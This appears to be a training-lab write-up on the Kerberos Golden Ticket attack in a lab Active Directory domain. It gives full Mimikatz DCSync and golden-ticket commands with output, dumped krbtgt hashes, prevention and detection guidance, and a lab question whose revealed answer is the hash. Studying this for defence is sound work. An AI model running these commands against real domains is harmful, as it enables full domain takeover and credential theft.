









import RevealFlag from '@site/src/components/RevealFlag';

# Golden Ticket

## Description

The `Kerberos Golden Ticket` is an attack in which threat agents can create/generate tickets for any user in the Domain, therefore effectively acting as a Domain Controller.

When a Domain is created, the unique user account `krbtgt` is created by default; `krbtgt` is a disabled account that cannot be deleted, renamed, or enabled. The **Domain Controller's KDC service will use the password** of `krbtgt` to **derive a key with which it signs all** `Kerberos tickets`. **This password's hash is the most trusted object in the entire Domain** because it is how objects guarantee that the environment's Domain issued Kerberos tickets.

Therefore, `any user` possessing the password's hash of `krbtgt` can **create valid Kerberos TGTs**. Because `krbtgt` **signs them**, forged TGTs are considered valid tickets within an environment. Previously, it was even possible to create TGTs for inexistent users and assign any privileges to their accounts. Because the password's hash of `krbtgt` signs these tickets, the entire domain blindly trusts them, behaving as if the user(s) existed and possessed the privileges inscribed in the ticket.

The `Golden Ticket` attack allows us to escalate rights from any child domain to the parent in the same forest. Therefore, we can escalate to the production domain from any test domain we may have, as the domain is `not` a security boundary.

This attack provides means for elevated persistence in the domain. It occurs after an adversary has gained Domain Admin (or similar) privileges.

---

## Attack

To perform the `Golden Ticket attack`, we can use `Mimikatz` with the following arguments:

- `/domain`: The domain's name.
- `/sid`: The domain's SID value.
- `/rc4`: The password's hash of krbtgt.
- `/user`: The username for which Mimikatz will issue the ticket *(Windows 2019 blocks tickets if they are for inexistent users.)*
- `/id`: Relative ID (last part of SID) for the user for whom Mimikatz will issue the ticket.

Additionally, **advanced threat agents** mostly will specify values for the `/renewmax` and `/endin` arguments, as otherwise, `Mimikatz` **will generate the ticket(s) with a lifetime of 10 years**, making it very easy to detect by EDRs.

- `/renewmax`: The maximum number of days the ticket can be renewed.
- `/endin`: End-of-life for the ticket.

First, we need to obtain the password's hash of `krbtgt` and the `SID` value of the Domain. We can utilize `DCSync` with `Rocky`'s account from the previous attack to obtain the hash:

```cmd
C:\WINDOWS\system32>cd ../../../

C:\>cd Mimikatz

C:\Mimikatz>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /domain:eagle.local /user:krbtgt
[DC] 'eagle.local' will be the domain
[DC] 'DC1.eagle.local' will be the DC server
[DC] 'krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 07/08/2022 11.26.54
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: db0d0630064747072a7da3f7c3b4069e
    ntlm- 0: db0d0630064747072a7da3f7c3b4069e
    lm  - 0: f298134aa1b3627f4b162df101be7ef9

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : b21cfadaca7a3ab774f0b4aea0d7797f

* Primary:Kerberos-Newer-Keys *
    Default Salt : EAGLE.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1335dd3a999cacbae9164555c30f71c568fbaf9c3aa83c4563d25363523d1efc
      aes128_hmac       (4096) : 8ca6bbd37b3bfb692a3cfaf68c579e64
      des_cbc_md5       (4096) : 580229010b15b52f

* Primary:Kerberos *
    Default Salt : EAGLE.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 580229010b15b52f

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  b4799f361e20c69c6fc83b9253553f3f
    02  510680d277587431b476c35e5f56e6b6
    03  7f55d426cc922e24269610612c9205aa
    04  b4799f361e20c69c6fc83b9253553f3f
    05  510680d277587431b476c35e5f56e6b6
    06  5fe31b1339791ab90043dbcbdf2fba02
    07  b4799f361e20c69c6fc83b9253553f3f
    08  7e08c14bc481e738910ba4d43b96803b
    09  7e08c14bc481e738910ba4d43b96803b
    10  b06fca48286ef6b1f6fb05f08248e6d7
    11  20f1565a063bb0d0ef7c819fa52f4fae
    12  7e08c14bc481e738910ba4d43b96803b
    13  b5181b744e0e9f7cc03435c069003e96
    14  20f1565a063bb0d0ef7c819fa52f4fae
    15  1aef9b5b268b8922a1e5cc11ed0c53f6
    16  1aef9b5b268b8922a1e5cc11ed0c53f6
    17  cd03f233b0aa1b39689e60dd4dbf6832
    18  ab6be1b7fd2ce7d8267943c464ee0673
    19  1c3610dce7d73451d535a065fc7cc730
    20  aeb364654402f52deb0b09f7e3fad531
    21  c177101f066186f80a5c3c97069ef845
    22  c177101f066186f80a5c3c97069ef845
    23  2f61531cee8cab3bb561b1bb4699cb9b
    24  bc35f896383f7c4366a5ce5cf3339856
    25  bc35f896383f7c4366a5ce5cf3339856
    26  b554ba9e2ce654832edf7a26cc24b22d
    27  f9daef80f97eead7b10d973f31c9caf4
    28  1cf0b20c5df52489f57e295e51034e97
    29  8c6049c719db31542c759b59bc671b9c
```



> We will use the `Get-DomainSID` function from [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) to obtain the `SID` value of the Domain:

```powershell
PS C:\Users\bob\Downloads> powershell -exec bypass

Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\bob\Downloads> . .\PowerView.ps1
PS C:\Users\bob\Downloads> Get-DomainSID
S-1-5-21-1518138621-4282902758-752445584
```



Now, armed with all the required information, we can use `Mimikatz` to create a ticket for the account `Administrator`. The `/ptt` argument makes `Mimikatz` [pass the ticket into the current session](https://adsecurity.org/?page_id=1821#KERBEROSPTT):

```cmd
C:\Mimikatz>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt

User      : Administrator
Domain    : eagle.local (EAGLE)
SID       : S-1-5-21-1518138621-4282902758-752445584
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: db0d0630064747072a7da3f7c3b4069e - rc4_hmac_nt
Lifetime  : 13/10/2022 06.28.43 ; 13/10/2022 06.36.43 ; 13/10/2022 06.35.43
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ eagle.local' successfully submitted for current session
```



The output shows that `Mimikatz` injected the ticket in the current session, and we can verify that by running the command `klist` (after exiting from `Mimikatz`):

```cmd
mimikatz # exit

Bye!

C:\Mimikatz>klist

Current LogonId is 0:0x9cbd6

Cached Tickets: (1)

#0>     Client: Administrator @ eagle.local
        Server: krbtgt/eagle.local @ eagle.local
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 10/13/2022 13/10/2022 06.28.43 (local)
        End Time:   10/13/2022 13/10/2022 06.36.43 (local)
        Renew Time: 10/13/2022 13/10/2022 06.35.43 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```



> To verify that the ticket is working, we can list the content of the `C$` share of `DC1` using it:

```cmd
C:\Mimikatz>dir \\dc1\c$

 Volume in drive \\dc1\c$ has no label.
 Volume Serial Number is 2CD0-9665

 Directory of \\dc1\c$

15/10/2022  08.30    <DIR>          DFSReports
13/10/2022  13.23    <DIR>          Mimikatz
01/09/2022  11.49    <DIR>          PerfLogs
28/11/2022  01.59    <DIR>          Program Files
01/09/2022  04.02    <DIR>          Program Files (x86)
13/12/2022  02.22    <DIR>          scripts
07/08/2022  11.31    <DIR>          Users
28/11/2022  02.27    <DIR>          Windows
               0 File(s)              0 bytes
               8 Dir(s)  44.947.984.384 bytes free
```



---

## Prevention

Preventing the creation of forged tickets is difficult as the `KDC` generates valid tickets using the same procedure. Therefore, once an attacker has all the required information, they can forge a ticket. Nonetheless, there are a few things we can and should do:

- Block privileged users from authenticating to any device.
- Periodically reset the password of the `krbtgt` account; the secrecy of this hash value is crucial to Active Directory. When resetting the password of `krbtgt` *(regardless of the password's strength)*, it will always be overwritten with a new randomly generated and cryptographically secure one. Utilizing Microsoft's script for changing the password of `krbtgt` [KrbtgtKeys.ps1](https://github.com/microsoft/New-KrbtgtKeys.ps1) is highly recommended as it has an audit mode that checks the domain for preventing impacts upon password change. It also forces DC replication across the globe so all Domain Controllers sync the new value instantly, reducing potential business disruptions.
- Enforce `SIDHistory` filtering between the domains in forests to prevent the escalation from a child domain to a parent domain *(because the escalation path involves abusing the `SIDHistory` property by setting it to that of a privileged group, for example, `Enterprise Admins`)*. However, doing this may result in potential issues in migrating domains.

---

## Detection

Correlating users' behavior is the best technique to detect abuse of forged tickets. Suppose we know the location and time a user regularly uses to log in. In that case, it will be easy to alert on other (suspicious) behaviors—for example, consider the account `Administrator` in the attack described above. If a mature organization uses `Privileged Access Workstations (PAWs)`, they should be alert to any privileged users not authenticating from those machines, proactively monitoring events with the [ID 4624](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4624) and [4625](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4625) *(successful and failed logon)*.

Domain Controllers will not log events when a threat agent forges a `Golden Ticket` from a compromised machine. However, when attempting to access another system(s), we will see events for successful logon originating from the compromised machine:



Another detection point could be a `TGS service` requested for a user without a previous `TGT`. However, this can be a tedious task due to the sheer volume of tickets *(and many other factors)*. If we go back to the attack scenario, by running `dir \\dc1\c$` at the end, we generated **two TGS tickets** on the **Domain Controller**:

### Ticket 1



### Ticket 2



The only difference between the tickets is the service. However, they are ordinary compared to the same events not associated with the `Golden Ticket`.

If `SID filtering` is enabled, we will get alerts with the [event ID 4675](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4675) during cross-domain escalation.

:::note
If an **Active Directory forest has been compromised**, we need to `reset all users passwords` and `revoke all certificates`, and for `krbtgt`, we must `reset its password twice` *(in **every domain**)*. The password history value for the `krbtgt` account is 2. **Therefore it stores the two most recent passwords**. By resetting the password twice, we effectively clear any old passwords from the history, so there is no way another DC will replicate this DC by using an old password. However, **it is recommended that this password reset occur at least 10 hours apart from each other** *(maximum user ticket lifetime)*; otherwise, expect some services to break if done in a shorter period.
:::

---

## Questions

### `1. Practice the techniques shown in this section. What is the NTLM hash of the krbtgt user?`

<RevealFlag>{`db0d0630064747072a7da3f7c3b4069e`}</RevealFlag>

#### Mimikatz

```cmd
cd C:\Mimikatz

C:\Mimikatz>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

```cmd
log output.txt
```

```cmd
lsadump::dcsync /domain:eagle.local /user:krbtgt
```

> Hash NTLM `db0d0630064747072a7da3f7c3b4069e`

---

#### PowerView

```powershell
cd "C:\Users\bob\Downloads\"
```

```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force
```

```powershell
. .\PowerView.ps1
```

```powershell
Get-DomainSID
```

> DomainSID `S-1-5-21-1518138621-4282902758-752445584`

---

#### Mimikatz `Golden Ticket`

```cmd
kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator id:500 /renewmax:7 /endin:8 /ptt
```

```txt
User      : Administrator
Domain    : eagle.local (EAGLE)
SID       : S-1-5-21-1518138621-4282902758-752445584
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: db0d0630064747072a7da3f7c3b4069e - rc4_hmac_nt
Lifetime  : 28/04/2025 11.21.55 ; 28/04/2025 11.29.55 ; 28/04/2025 11.28.55
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ eagle.local' successfully submitted for current session
```

---

#### Check if we have the `Golden Ticket`

```cmd
exit
```

```cmd
klist
```

```txt
Current LogonId is 0:0x19865c

Cached Tickets: (1)

#0>     Client: Administrator @ eagle.local
        Server: krbtgt/eagle.local @ eagle.local
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 4/28/2025 11:21:55 (local)
        End Time:   4/28/2025 11:29:55 (local)
        Renew Time: 4/28/2025 11:28:55 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

